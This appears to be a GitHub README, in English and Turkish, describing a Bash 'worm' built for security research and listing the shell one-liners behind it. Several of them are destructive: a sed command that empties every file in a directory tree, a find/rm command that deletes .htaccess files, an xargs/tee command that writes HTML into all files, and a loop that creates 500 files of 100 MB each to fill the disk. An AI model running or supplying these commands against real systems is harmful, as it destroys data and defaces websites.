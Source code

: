 # Bash-Script-Worm-Security-Research
Bash Script Worm (Security Research)
Author: Efe Cetinkaya

# EN:The purpose of the project was to see how complex a Computer Worm I could write on Linux-based servers using the Bash Script language through an attack scenario. Essentially, my goal was to create a small worm on the server that can replicate itself, occupy memory space by filling it with unnecessary files, target and delete .htaccess files if possible (usually for web applications), and allow the attacker to add and edit the content of target files according to the scenario. If this project is completed, it could be further developed and used for educational purposes and penetration testing in the field of cyber security.

# TR:Projenin amacı, Bash Script dilini kullanarak bir saldırı senaryosu üzerinden Linux tabanlı sunucularda ne kadar komplike bir Computer Worm yazabileceğimi görmekti. Temelde sunucu üzerinde; kendini kopyalayan, bellek alanını gereksiz dosyalarla doldurup işgal eden, mümkünse (genelde web aplikasyonları için) .htaccess dosyalarını hedef alıp silebilen, hedef dosyaların içerğinide senaryoya göre saldırgan tarafından ekleme ve düzenleme yapabilen küçük bir solucan yaratmaktı amacım. Daha da geliştirilebilir bu proje tamamlandığı takdirde siber güvenlik alanında, eğitim amaçlı ve penetrasyon testlerinde kullanılabilir.


- "find . '(' -type d -name filmler -prune ')' -o '(' -type d -name otherdir -prune ')' -o -name '*baba*.txt' -prune -o -name '*mem*.txt' -prune -o -type f -print" --> "mem" ve "baba" adları ile beraber "filmler" ve "otherdir" dizinlerini de taramaya dahil etmez, yani find komutuyla aynı anda 2 dosya adını ve 2 dizin adını aramadan hariç tuttuk ve bu şekilde 2 veya daha fazla dosya veya dizin adını tek komutda dışlayabilirsin. --> https://stackoverflow.com/questions/64362890/exclude-both-file-and-directory-at-the-same-time-with-find-command

- "find . '(' -type d -name filmler -prune ')' -o -name '*baba*.txt' -prune -o -name '*mem*.txt' -prune -o -type f -print" --> "mem" ve "baba" adları dışında "filmler" dizinini de taramaya dahil etmez, yani find komutuyla aynı anda 2 dosya adını ve 1 dizin adını aramadan hariç tuttuk. --> https://stackoverflow.com/questions/64362890/exclude-both-file-and-directory-at-the-same-time-with-find-command

- "find . -type f -name '*.txt' ! -name '*baba*.txt' ! -name '*mem*.txt'" --> .txt uzantılı tüm dosyaları arar fakat isminde "baba" ve "mem" kelimesi içeren tüm .txt dosyalarını hariç tutar. --> https://stackoverflow.com/questions/22558245/exclude-list-of-files-from-find

- "find . -type f -name "*.txt" ! -path "./Movies/*" ! -path "./Downloads/*" ! -path "./Music/*"" --> Sadece belirli dizin veya dizinleri hariç tutmak isteseydik bu komutu bu parametlerlekullanacaktık. --> https://www.cyberciti.biz/faq/find-command-exclude-ignore-files/

- "find . -type f | xargs -d '\n' sh -c 'echo "<--HTML-YAZISI=\"tınak-isaretli-yazi\"-->" | tee "$@"' _" --> Tırnak işaretlerini (") başlarına (\) bu ifadeyi getirerek ekletebilirsin. --> https://github.com/koalaman/shellcheck/wiki/SC2140

- "find . -type f | xargs -d '\n' sh -c 'echo "html-kodu" | tee "$@"' _" -->  Bulunduğun dizin ve altındaki tüm dizinlerdeki dosyaların hepsine yazı veya kod ekler. --> https://stackoverflow.com/questions/64336217/i-need-help-applying-this-command-to-all-files-and-subdirectories-echo-text

- "find . -type f -exec sed -i 's/.//g' {} +" --> Bulunduğun dizin ve altındaki tüm dizinlerdeki dosyaların hepsinin içeriğini siler. --> http://web.deu.edu.tr/doc/lis/lis-7.html

- "find . -type f -name "SILINECEK-DOSYA" -exec rm -f {} \;"--> Bulunduğun dizin ve altındaki tüm dizinlerde ".htaccess" dosyalarını arayıp bulur ve siler  --> https://bilgegunluk.com/linux-bul-ve-sil-komutu-find-and-delete-command/

- "{0001..0500}" arası yani 500 tane dosya oluşturur

- "do head -c 100M" 100 MB büyüklüğünde olur her bir dosya

- "</dev/urandom >$RANDOM$i; done", "$RANDOM" yerine ($i dahil edilmeden direkt $RANDOM'un yerine) file yazılırsa dosya isimleri file0001 file0002 olur!

- "for i in {0001..0500}; do head -c 100M </dev/urandom >$RANDOM$i; done" --> https://unix.stackexchange.com/questions/199863/create-many-files-with-random-content
